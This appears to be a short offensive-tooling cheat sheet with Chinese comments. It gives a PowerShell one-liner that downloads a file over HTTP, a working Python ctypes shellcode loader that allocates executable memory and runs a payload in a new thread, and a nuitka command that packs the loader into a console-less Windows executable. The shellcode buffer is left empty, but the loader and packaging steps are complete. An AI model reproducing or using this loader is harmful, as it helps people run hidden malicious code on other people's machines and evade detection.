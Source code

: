 ## Download http://127.0.0.1/test.txt > Local/Filename.txt
```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://127.0.0.1/test.txt','Filename.txt')
```

## Python3 Local Load shellcode.
```python
#coding=utf-8
#python的ctypes模块是内建，用来调用系统动态链接库函数的模块
#使用ctypes库可以很方便地调用C语言的动态链接库，并可以向其传递参数。
import ctypes

buf =  b""
buf += b""


shellcode = bytearray(buf)

# 设置VirtualAlloc返回类型为ctypes.c_uint64
#在64位系统上运行，必须使用restype函数设置VirtualAlloc返回类型为ctypes.c_unit64，否则默认的是32位
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

# 申请内存：调用kernel32.dll动态链接库中的VirtualAlloc函数申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),  #要分配的内存区域的地址
    ctypes.c_int(len(shellcode)), #分配的大小
    ctypes.c_int(0x3000),  #分配的类型，0x3000代表MEM_COMMIT | MEM_RESERVE
    ctypes.c_int(0x40) #该内存的初始保护属性，0x40代表可读可写可执行属性
    )

# 调用kernel32.dll动态链接库中的RtlMoveMemory函数将shellcode移动到申请的内存中
buffered = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffered,
    ctypes.c_int(len(shellcode))
)

# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0), #指向安全属性的指针
    ctypes.c_int(0), #初始堆栈大小
    ctypes.c_uint64(ptr), #指向起始地址的指针
    ctypes.c_int(0), #指向任何参数的指针
    ctypes.c_int(0), #创建标志
    ctypes.pointer(ctypes.c_int(0)) #指向接收线程标识符的值的指针
)

# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

## Python3ToExe.
`python3 -m nuitka --standalone --windows-disable-console --show-progress --onefile ShellcodeLoader.py`
